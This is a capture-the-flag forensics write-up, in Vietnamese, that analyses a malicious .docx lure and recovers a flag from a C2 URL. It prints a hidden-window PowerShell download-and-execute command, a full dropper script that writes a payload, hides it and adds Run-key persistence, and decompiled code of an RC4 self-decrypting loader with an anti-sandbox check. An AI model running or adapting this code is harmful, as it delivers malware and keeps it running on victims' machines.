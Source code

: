 # _Silver Moon_ _(Forensics)_

![image](image/1.png)

Ban đầu mình nhận được một yêu cầu chạy trực tiếp 1 file `.docx` thông qua đường link trong `File Explorer`

![image](image/2.png)

Thực hiện theo yêu cầu, thì thấy file kích hoạt `powershell` nháy phát rồi tắt. Mình đoán nó đã thực thi thứ gì đó trên máy mình, nên mình sẽ thực hiện check trong `Event Viewer` cụ thể là ở log `Sysmon` hoặc `Powershell` xem có gì đáng ngờ không

![image](image/3.png)

Thấy được một `Process create` kích hoạt `powershell` với câu lệnh sau

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1') # C:\HR\Application.docx
```

Dễ dàng thấy đoạn mã trên thực hiện tải và chạy mã độc từ `Internet` bằng `PowerShell`, trong chế độ ẩn và bỏ qua bảo mật. Mình liền lấy đường link ra truy cập thử và có được nội dung sau

```powershell
$SAlaAox = $kXVWlUwNPEw
$hLXHNNQnb = [Convert]::FromBase64String($SAlaAox)
$geMBPeaVORuLk = [System.Text.Encoding]::UTF8.GetString($hLXHNNQnb)
$geMBPeaVORuLk = ConvertFrom-Json $geMBPeaVORuLk

$ZhWOQbu = 'J1Csum3Dcj'
$ALMVCnyJSuzBnE = Join-Path $env:USERPROFILE (('DocumentsG1tJ1Csum3Dcj') -creplace 'G1t','\')

if (-not (Test-Path $ALMVCnyJSuzBnE)) {
    New-Item -ItemType Directory -Path $ALMVCnyJSuzBnE | Out-Null
    (Get-Item $ALMVCnyJSuzBnE).Attributes += 'Hidden','System'
}

foreach ($file in $geMBPeaVORuLk.aixrdrPVmiaT) {
    $p = Join-Path $ALMVCnyJSuzBnE $file.bHSoyPyFwZgB
    [IO.File]::WriteAllBytes($p, [Convert]::FromBase64String($file.PthYIs))
}

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$EHPoSQvgWxy = [IO.Path]::ChangeExtension([IO.Path]::GetTempFileName(), 'cmd')
[IO.File]::WriteAllText($EHPoSQvgWxy, (
    '@echo off
    start "" /b "%USERPROFILE%\Documents\J1Csum3Dcj\update.exe"
    del "%~f0"'
))

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

Set-ItemProperty -Path ('HKCU:\Software\Microsoft\Windows\CurrentVersion\Run') `
    -Name 'lAoprv' `
    -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$ws = New-Object -ComObject WScript.Shell
$ws.Run($EHPoSQvgWxy, 0, $false)

Remove-Item $MyInvocation.MyCommand.Path -Force
```
- Đầu tiên thực hiện decode b64 hàm `kXVWlUwNPEw` ghi ra file `update.exe`
- Thực thi file, ẩn file
- Thiết lập cơ chế `persistance`: `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\lAoprv = update.exe path`. Mình có thể thấy sự xuất hiện của hoạt động này trong `autoruns` ~~Disable ngay nha~~![image](image/5.png)
- File `update.exe` được lưu tại `USERPROFILE\Documents\J1Csum3Dcj\`

Mình bắt đầu thực hiện việc `debug` tĩnh malware và đây là hàm `main`

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int ticks; // ebx
  int v4; // ebx
  __m128i si128; // xmm2
  char *v6; // rdx
  __m128 v7; // xmm3
  unsigned int v8; // ecx
  unsigned int v9; // eax
  __m128i v10; // xmm0
  __m128i v11; // xmm1
  __m128i v12; // xmm0
  __m128i v13; // xmm1
  __m128i v14; // xmm0
  __m128i v15; // xmm0
  __m128i v16; // xmm0
  __m128i v17; // xmm1
  __m128i v18; // xmm1
  unsigned __int8 v19; // r8
  char *v20; // r10
  int v21; // r9d
  char v22; // r11
  unsigned __int8 v23; // di
  __int64 i; // r11
  char v25; // r10
  __int64 v27; // [rsp+20h] [rbp-128h] BYREF
  _BYTE v28[4]; // [rsp+30h] [rbp-118h] BYREF
  char v29; // [rsp+34h] [rbp-114h] BYREF
  DWORD flOldProtect; // [rsp+130h] [rbp-18h] BYREF

  v27 = 5;
  ticks = Xtime_get_ticks();
  sub_140001320(&v27);
  if ( (double)(int)(Xtime_get_ticks() - ticks) / 10000000.0 <= 4.5 )
    exit(0);
  v4 = 0;
  flOldProtect = 0;
  if ( !VirtualProtect(&loc_140001520, 0xA82EDCu, 0x40u, &flOldProtect) )
  {
    GetLastError();
    sub_140001010("Error: %d");
  }
  si128 = _mm_load_si128((const __m128i *)&xmmword_140A862C0);
  v6 = &v29;
  v7 = (__m128)_mm_load_si128((const __m128i *)&xmmword_140A862D0);
  v8 = 8;
  do
  {
    v6 += 16;
    v9 = v8 + 4;
    v10 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 8), 0), si128), v7);
    v11 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 4), 0), si128), v7);
    v12 = _mm_packus_epi16(v10, v10);
    v13 = _mm_packus_epi16(v11, v11);
    *((_DWORD *)v6 - 5) = _mm_cvtsi128_si32(_mm_packus_epi16(v12, v12));
    *((_DWORD *)v6 - 4) = _mm_cvtsi128_si32(_mm_packus_epi16(v13, v13));
    v14 = _mm_cvtsi32_si128(v8);
    v8 += 16;
    v15 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(v14, 0), si128), v7);
    v16 = _mm_packus_epi16(v15, v15);
    v17 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v9), 0), si128), v7);
    *((_DWORD *)v6 - 3) = _mm_cvtsi128_si32(_mm_packus_epi16(v16, v16));
    v18 = _mm_packus_epi16(v17, v17);
    *((_DWORD *)v6 - 2) = _mm_cvtsi128_si32(_mm_packus_epi16(v18, v18));
  }
  while ( (int)(v8 - 8) < 256 );
  v19 = 0;
  v20 = v28;
  v21 = 0;
  do
  {
    v22 = *v20;
    v19 += *v20 + aAdvapi32Dll[v21++ % 0xCu];
    *v20++ = v28[v19];
    v28[v19] = v22;
  }
  while ( v21 < 256 );
  v23 = 0;
  for ( i = 0; i < 11022044; ++i )
  {
    v4 = (v4 + 1) % 256;
    v25 = v28[v4];
    v23 += v25;
    v28[v4] = v28[v23];
    v28[v23] = v25;
    *((_BYTE *)&loc_140001520 + i) ^= v28[(unsigned __int8)(v25 + v28[v4])];
  }
  VirtualProtect(&loc_140001520, 0xA82EDCu, flOldProtect, &flOldProtect);
  ((void (*)(void))loc_140001520)();
  return 0;
}
```
- Thấy được đây là một con `malware` có dấu hiệu của việc chống `sandbox\debug`. Sau đó cấp quyền `read/write/excecute` cho vùng nhớ `loc_140001520` bằng `VirtualProtect`![image](image/13.png)
- Dùng thuật toán key scheduling kiểu RC4 để sinh S-box với `key` là `advapi32.dll`![image](image/14.png)
- Dùng `RC4 key stream` thực hiện `xor` với `loc_140001520`

Xác định vùng nhớ `loc_140001520` ban đầu:

![image](image/15.png)

Tiến hành debug bằng cách đặt `breakpoint` sau vòng `for` tức là vùng `loc_140001520` được `decrypt` xong

![image](image/10.png)

Chạy xong thấy vùng `loc_140001520` đã bị thay đổi so với ban đầu.

![image](image/16.png)

Chuyển sang chế độ `hex dump` để xem, mình thấy sự xuất hiện của 1 file thực thi khác tại đây nên khả năng cao là shellcode đã được `decrypt` đúng

![image](image/17.png)

Mình tiến hàng dump vùng này về bằng tay. Vì dump bằng tay nên khả năng cao file sẽ bị thiếu hoặc kh được chuẩn (mình cũng kh biết nữa vì trình `reverse` mà động đến `debug` như này mình khá kém)

![image](image/18.png)

Đến đây mình vứt vào `IDA` và sau đó là kh biết làm gì tiếp theo, nên mình tiến hành chạy thử trong `VM` nhưng kh chạy được (chắc do mình dump thiếu)

![image](image/19.png)

Vì kh biết làm gì tiếp nên mình thử strings bừa thì thấy được 1 số dữ kiện quan trọng

![image](image/20.png)

Cụ thể hơn thì đây khả năng là danh sách các tên `file/source` được nhúng trong `.rdata` section của một binary được build từ `GO`. Điều này rất thường thấy ở `malware` được viết bằng GO, nhất là các `implant` từ `Silver C2`. Vì liên quan đến `Silver C2` nên mình tiến hành check thử một số kí tự đặc trưng như `http`

![image](image/21.png)

Thấy được 1 đường link `https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=`, tiến hành decode b64 ta nhận được flag

`wwf{f1l3f1x_t0_sl1v3r_b34c0n}`
